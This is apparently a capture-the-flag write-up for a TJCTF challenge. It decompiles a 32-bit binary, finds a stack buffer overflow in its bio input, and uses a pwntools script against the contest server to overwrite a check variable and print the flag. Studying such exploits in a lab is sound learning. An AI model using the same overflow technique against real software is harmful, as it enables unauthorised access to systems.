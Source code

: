 # Tinder

![](chall.png)

We are given an [ELF 32-bit binary](match). Let's perform a buffer overflow.

I decompiled the binary in [ghidra](https://ghidra-sre.org/) to see what it does.

```c
int input(char *str,float f)
{
  size_t sVar1;
  char *pcVar2;

  fgets(str,(int)ROUND(f * 16.00000000),stdin);
  sVar1 = strlen(str);
  if (1 < sVar1) {
    pcVar2 = strchr(str,10);
    if (pcVar2 == (char *)0x0) {
      do {
        str = (char *)fgetc(stdin);
      } while (str != (char *)0xa);
    }
    else {
      sVar1 = strlen(str);
      str = str + (sVar1 - 1);
      *str = '\0';
    }
    return (int)str;
  }
  puts("No input detected. Registration failed.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

int main(void)
{
  char local_a8 [32];
  char local_88 [64];
  char local_48 [16];
  char local_38 [16];
  char local_28 [16];
  FILE *local_18;
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0;
  setup();
  puts("Welcome to TJTinder, please register to start matching!");
  printf("Name: ");
  input(local_28,1.00000000);
  printf("Username: ");
  input(local_38,1.00000000);
  printf("Password: ");
  input(local_48,1.00000000);
  printf("Tinder Bio: ");
  input(local_88,8.00000000);
  putchar(10);
  if (local_14 == -0x3f2c2ff3) {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("It\'s a match!");
    local_18 = fopen("flag.txt","r");
    if (local_18 == (FILE *)0x0) {
      puts("Flag File is Missing. Contact a moderator if running on server.");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    fgets(local_a8,0x20,local_18);
    printf("Here is your flag: %s",local_a8);
  }
  else {
    printf("Registered \'%s\' to TJTinder successfully!\n",local_38);
    puts("Searching for matches...");
    sleep(3);
    puts("Sorry, no matches found. Try Again!");
  }
  return 0;
}
```

The executable asks for four inputs, Name, Username, Password, and Tinder Bio. It then checks if `local_14` is equal to `0xc0d3d00d`. If it is, it prints the flag.

I made a python script to overwrite local_14 with `0xc0d3d00d`. I decided to use the final input for whatever reason. I overwrote all the other string buffers and the file pointer with passing to get to `local_14`. Then, all that's left is to overwrite `local_14` with `0xc0d3d00d`.

```python
from pwn import *

if 'rem' in sys.argv:
    r = remote('p1.tjctf.org', 8002)
elif 'file' in sys.argv:
    class getPayload:
        def __init__(self):
            self.payload = b''
        def send(self, oper):
            self.payload += oper
        def interactive(self):
            file = open('payload', 'wb')
            file.write(self.payload)
            file.close()
    r = getPayload()
else:
    r = process('./match')

for i in range(3):
    r.send(b'a\n')

filler = b'B9alaLbY4e2rTxuWlzHbzvk7K8bKD08bpJrNsivp1AxxTcz9lCCiN3TFMLjH09rcQe5RQfp0CynfYbfZIiKjutBC7R0fkkcd5a2t0XhsBt2d7BxNN6qT'

r.send(filler)
r.send(p32(0xc0d3d00d))
r.send(b'\n')

r.interactive()
```

I got the filler data by using an online random string generator and then finding the end of the padding using gdb, but you can easily just count the bytes.

```c
char local_88 [64];
char local_48 [16];
char local_38 [16];
char local_28 [16];
FILE *local_18;
int local_14;
```

```python
filler = b'A' * (64 + 16 + 16 + 16 + 4)
```

Now that I think about it, that may have been smarter.

```python
$ py sol.py rem
[+] Opening connection to p1.tjctf.org on port 8002: Done
[*] Switching to interactive mode
Welcome to TJTinder, please register to start matching!
Name: Username: Password: Tinder Bio:
Registered 'IiKjutBC7R0fkkcd5a2t0XhsBt2d7BxNN6qT\xd0\xd3\xc0' to TJTinder successfully!
Searching for matches...
It's a match!
Here is your flag: tjctf{0v3rfl0w_0f_m4tch35}
```

Flag: `tjctf{0v3rfl0w_0f_m4tch35}`
